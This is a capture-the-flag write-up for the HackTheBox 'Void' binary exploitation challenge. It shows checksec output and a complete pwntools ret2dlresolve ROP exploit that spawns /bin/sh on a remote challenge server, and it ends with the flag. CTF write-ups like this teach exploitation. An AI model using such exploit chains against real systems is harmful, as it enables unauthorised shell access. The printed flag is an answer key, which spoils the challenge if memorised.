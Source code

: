# Void WriteUp by Om Honrao (@Inv1s1bl3#7047)

## Challenge Description
```
The room goes dark and all you can see is a damaged terminal. Hack into it to restore the power and find your way out.
```

## Challenge Files
```
- pwn_void.zip
    ./challenge
        ./glibc
        ./glibc/ld-linux-x86-64.so.2
        ./glibc/libc.so.6
        ./flag.txt
        ./void
```

## Challenge Solution
We start from basic analysis of binary with `checksec` and `file` command.
```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'./glibc/'
```
This is obviously a `Ret2Dlresolve` challenge.
Wasn't quite sure what to do but somehow got it.

We basically use ROP to call system and then get the shell i wasn't able to do this without the pwntools so i basically need to learn more but yeah pwntools is kind of easy so i used it.

```python
from pwn import *

elf = context.binary = ELF('void', checksec=False)

#create rop chain
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf, symbol="system", args=["/bin/sh"])
rop.read(0, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()

p = remote('161.35.168.118',31576)

#send payload
p.sendline(fit({64+context.bytes: raw_rop, 200: dlresolve.payload}))

#get shell
p.interactive()
```

What this does basically is create a ROP chain and make Ret2dlresolvePayload object and then we read the data_addr of the Ret2dlresolvePayload object and then we call ret2dlresolve and then we send the payload which pops up the shell!

## Flag
```
HTB{r3s0lv3_th3_d4rkn355}
```
